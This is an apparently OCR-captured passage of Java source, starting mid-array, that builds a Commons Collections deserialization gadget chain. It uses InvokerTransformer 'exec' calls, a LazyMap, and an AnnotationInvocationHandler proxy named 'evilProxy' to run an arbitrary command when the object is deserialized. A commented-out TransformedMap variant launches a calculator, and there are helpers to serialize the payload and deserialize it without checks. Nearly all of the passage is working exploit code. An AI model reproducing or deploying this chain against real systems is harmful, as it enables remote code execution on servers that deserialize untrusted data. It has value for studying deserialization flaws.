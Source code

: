 ```
                ),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        command
                )
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);

        String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
        final Constructor<?> constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);
        Proxy evilProxy = (Proxy) Proxy.newProxyInstance(Deserialize.class.getClassLoader(), new Class[]{Map.class}, secondInvocationHandler);

        InvocationHandler invocationHandlerToSerialize = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);

        return invocationHandlerToSerialize;

        /*Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {
                        String.class }, new Object[] {"open -a calculator"})};

        Transformer chain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap<String, Object>();
        innerMap.put("key", "value");
        Map<String, Object> outerMap = TransformedMap.decorate(innerMap, null, chain);
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, outerMap);
        return instance;*/
    }

    public static void deserializeAndDoNothing(byte[] byteArray) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(byteArray));
        ois.readObject();
    }

    public static byte[] serializeToByteArray(Object object) throws IOException {
        ByteArrayOutputStream serializedObjectOutputContainer = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(serializedObjectOutputContainer);
        objectOutputStream.writeObject(object);
        return serializedObjectOutputContainer.toByteArray();
    }

```